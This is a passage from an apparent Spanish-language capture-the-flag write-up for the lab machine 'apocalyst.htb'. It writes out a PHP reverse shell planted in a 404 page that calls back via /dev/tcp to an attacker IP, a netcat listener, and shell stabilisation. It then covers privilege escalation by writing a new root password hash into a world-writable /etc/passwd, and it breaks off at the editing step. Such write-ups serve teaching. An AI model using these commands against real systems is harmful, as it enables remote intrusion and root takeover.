 Por tanto podemos configurar la pagina que nos devuelve el codigo 404 y añadir una reverse shell que apunte hacia nuestra IP en el codigo php

`system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");`

![reverseShell](Images/image09.png)

Una vez modificado, en una terminal nos ponemos en escucha en el puerto 443 y en otra terminal realizamos una solicitud a la pagina 404.php y esto nos da acceso a la maquina

> sudo rlwrap nc -nlvp 443

> curl -s -X GET "http://apocalyst.htb/?p=404.php"

Una vez ingresamos, dado que no nos encontramos en una TTY realizamos los siguientes pasos para poder volver una TTY

> script /dev/null -c bas

Se presiona las teclas `ctrl` + `Z`

> stty raw -echo; fg

> reset xterm

Una vez que arreglamos la terminal Podemos revisar que el usuario *www-data* tiene permisos de escritura en el archivo **/etc/passw**

> find / -writable 2>/dev/null | grep -vE "/var/|/run|/tmp|/dev|/lib|/proc|/sys"

```console
/etc/passwd
```

Dado que tenemos permisos para modificar el **/etc/passwd** Creamos la contraseña *hola* con openssl para añadirla en **/etc/passwd**

> openssl passwd

```console
Password: hola
Verifying - Password: hola
YVRApXH.RgnuE
```

Y lo copiamos en la linea del usuario root

> nano /etc/passwd

